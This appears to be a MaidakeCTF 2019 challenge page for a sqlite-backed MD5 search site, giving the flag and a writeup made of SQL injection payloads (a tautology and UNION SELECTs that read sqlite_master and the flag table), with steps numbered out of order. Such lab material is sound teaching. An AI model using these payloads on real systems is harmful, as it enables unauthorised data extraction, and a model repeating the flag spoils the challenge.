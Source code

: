 # Kancolle Engine

## 問題文
艦娘のMD5を検索できるサイトを作ってみました！
※sqlite3を使用しています。

## 添付ファイル
URL

## Flag
MaidakeCTF{Use_question_mark_placeholders_when_calling_SQL}

## 検証用URL
https://aokakes.work/CTF/MaidakeCTF2019/Kancolle_Engine/

## writeup
1. 1' or 1 = 1 -- 
2. 1' UNION SELECT 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, name FROM sqlite_master WHERE type='table' ORDER BY name -- 
4. 1' UNION SELECT 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, sql FROM sqlite_master WHERE type='table' ORDER BY name -- 
3. 1' UNION SELECT 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, this_is_flag FROM flag -- 

